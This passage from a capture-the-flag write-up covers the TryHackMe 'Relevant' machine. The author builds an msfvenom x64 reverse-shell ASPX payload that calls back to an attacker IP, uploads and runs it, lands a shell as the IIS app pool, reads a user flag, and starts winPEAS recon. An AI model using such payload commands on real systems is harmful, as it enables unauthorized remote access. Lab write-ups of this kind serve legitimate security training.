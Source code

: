 You see the problem? I generated a `windows/shell_reverse_tcp`, I assumed that was the correct setting. But turns out that we also can do this for x64:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.0.34 LPORT=4444 -f aspx > tzshell3.aspx`

Let's generate that payload, upload, and try to run it.


```sh
┌──(kali㉿kali)-[~/Documents/THM/relevant]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.0.34 LPORT=4444 -f aspx > tzshell3.aspx                                                     2 ⨯
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3403 bytes
```

If we try to run this right from the browser, this time it works:

![We open the new payload in the browser directyl](https://i.imgur.com/rVFArR1.png)


and we get the reverse shell right away:

![rev shell](https://i.imgur.com/1Xw0knt.png)

if we run `whoami` we get `iis apppool\defaultapppool`.

We have some initial foothold in this machine now, let's see if we can look around the files a little.
Seems that Bob is a valid username.

![We found Bob](https://i.imgur.com/PIQEyOu.png)

If we look into Bob's Desktop folder we see something the client wants :smile: 

![We found the user.txt flag](https://i.imgur.com/gxlpnQw.png)


```sh
c:\Users\Bob\Desktop>type user.txt
type user.txt
THM{fdkREDACTEDktf45}
c:\Users\Bob\Desktop>
```

Of course, if we try to navigate into `Administrator` we get a fine `Acess denied`. Let's try to run `winPEAS` to do some recon.
I'll be using `winPEAS.bat` version (there is a .exe version as well), you can get it [here](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat).

I start a simple `python -m SimpleHTTPServer 2112` in our fav port.

As I try to `wget` that file from the rev shell session, the deployed machine **stops responding again**! I don't really know what the problem is...
